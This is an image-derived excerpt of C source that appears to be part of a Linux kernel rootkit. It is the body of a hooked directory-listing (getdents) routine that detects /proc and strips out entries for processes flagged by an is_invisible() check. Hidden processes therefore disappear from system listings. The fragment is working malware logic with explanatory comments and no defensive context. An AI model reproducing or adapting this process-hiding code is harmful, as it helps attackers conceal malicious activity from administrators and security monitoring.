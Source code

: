 ```c
	/* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/slab.h#L680
	 * 
	 * kzalloc - allocate memory. The memory is set to zero.
	 * @size: how many bytes of memory are required.
	 * @flags: the type of memory to allocate (see kmalloc).
	 *
	 * static inline void *kzalloc(size_t size, gfp_t flags)
	 */
	/* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/slab.h#L538
	 *
	 * Below is a brief outline of the most useful GFP flags
	 * %GFP_KERNEL
	 * Allocate normal kernel ram. May sleep.
	 */
	kdirent = kzalloc(ret, GFP_KERNEL);

	if (kdirent == NULL)
		return ret;

	// Copying directory name (or pid name) from userspace to kernel space
	err = copy_from_user(kdirent, dirent, ret);
	if (err)
		goto out;

	// Storing the inode value of the required directory(or pid) 
	d_inode = current->files->fdt->fd[fd]->f_path.dentry->d_inode;

	if (d_inode->i_ino == PROC_ROOT_INO && !MAJOR(d_inode->i_rdev)
        	/*&& MINOR(d_inode->i_rdev) == 1*/)
        	proc = 1;

	// Change which we will do
	while (offset < ret)
	{
		dir = (void *)kdirent + offset;

		if ((proc && is_invisible(simple_strtoul(dir->d_name, NULL, 10))))
		{
			if (dir == kdirent)
			{
				ret -= dir->d_reclen;
				memmove(dir, (void *)dir + dir->d_reclen, ret);
				continue;
			}
			prev->d_reclen += dir->d_reclen;
		}
        	else
		{
			prev = dir;
		}
		offset += dir->d_reclen;
	}
	// Copying directory name (or pid name) from kernel space to user space, after changing 
	err = copy_to_user(dirent, kdirent, ret);
      
	if (err)
	{
		goto out;
	}

	out:
		kfree(kdirent);
		return ret;
```